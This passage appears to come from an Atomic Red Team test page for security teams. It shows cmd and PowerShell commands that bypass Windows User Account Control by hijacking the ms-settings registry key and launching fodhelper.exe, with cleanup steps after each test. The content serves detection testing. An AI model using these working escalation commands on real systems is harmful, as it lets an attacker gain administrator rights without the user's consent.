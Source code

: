 ```cmd
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /ve /d "#{executable_binary}" /f
reg.exe add hkcu\software\classes\ms-settings\shell\open\command /v "DelegateExecute" /f
fodhelper.exe
```

#### Cleanup Commands:
```cmd
reg.exe delete hkcu\software\classes\ms-settings /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #4 - Bypass UAC using Fodhelper - PowerShell
PowerShell code to bypass User Account Control using the Windows 10 Features on Demand Helper (fodhelper.exe). Requires Windows 10.
Upon execution command prompt will be opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 3f627297-6c38-4e7d-a278-fc2563eaaeaa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```

#### Cleanup Commands:
```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```





<br/>
<br/>

